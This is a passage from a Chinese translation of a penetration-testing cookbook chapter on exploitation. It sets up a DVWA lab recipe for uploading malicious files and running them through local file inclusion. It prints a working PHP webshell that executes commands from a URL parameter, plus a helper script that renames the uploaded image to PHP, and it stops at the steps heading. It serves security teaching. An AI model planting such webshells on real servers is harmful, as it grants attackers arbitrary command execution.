 # 第六章：利用 -- 低悬的果实

> 作者：Gilberto Najera-Gutierrez

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 简介

这章开始我们会开始涉及渗透测试的的利用层面。和漏洞评估的主要不同是，漏洞评估中测试者识别漏洞（多数时间使用自动化扫描器）和提出如何减轻它们的建议。而渗透测试中测试者作为恶意攻击者并尝试利用检测到的漏洞，并得到最后的结果：整个系统的沦陷，内部网络访问，敏感数据泄露，以及其它。同时，要当心不要影响系统的可用性或者为真正的攻击者留下后门。

之前的章节中，我们已经涉及了如何检测 Web 应用中的一些漏洞。这一章中我们打算了解如何利用这些漏洞并使用它们来提取信息和获得应用及系统受限部分的访问权。

## 6.1 恶意使用文件包含和上传

我们在第四章中看到，文件包含漏洞在开发者对生成文件路径的输入校验不当，并使用该路径来包含源代码文件时出现。服务端语言的现代版本，例如 PHP 自 5.2.0 起，将一些特性默认关闭，例如远程文件包含，所以 2011 年起就不大可能找到 RFI 了。

这个秘籍中，我们会上传一些恶意文件，其中之一是 Webshell（可用于在服务器中执行命令的页面），之后使用本地文件包含来执行它。

### 准备

这个秘籍中，我们会使用  vulnerable_vm  中的 DVWA ，并以中等安全级别配置，所以让我们将其配置起来。

1.  访问` http://192.168.56.102/dvwa`。

2.  登录。

3.  将安全级别设置为中。访问`DVWA Security`，在组合框中选择`medium`并点击`Submit`。

我们会上传一些文件给服务器，但是你需要记住它们储存在哪里，以便之后调用。所以，在 DVWA 中访问`Upload`并上传任何 JPG 图像。如果成功了，他会告诉你文件上传到了`../../hackable/uploads/`。现在我们知道了用于储存上传文件的相对路径。这对于秘籍就足够了。

我们也需要准备好我们的文件，所以让我们创建带有一下内容的文本文件：

```php
<? 
system($_GET['cmd']); 
echo '<form method="post" action="../../hackable/uploads/webshell. php"><input type="text" name="cmd"/></form>'; 
?>
```

将其保存为`webshell.php`。我们需要另一个文件，创建`rename.php`并输入下列代码：

```php
<? 
system('mv ../../hackable/uploads/webshell.jpg ../../hackable/uploads/ webshell.php'); 
?>
```

这个文件会接受特殊图像文件（`webshell.jpg`）并将其重命名为`webshell.php`。

### 操作步骤
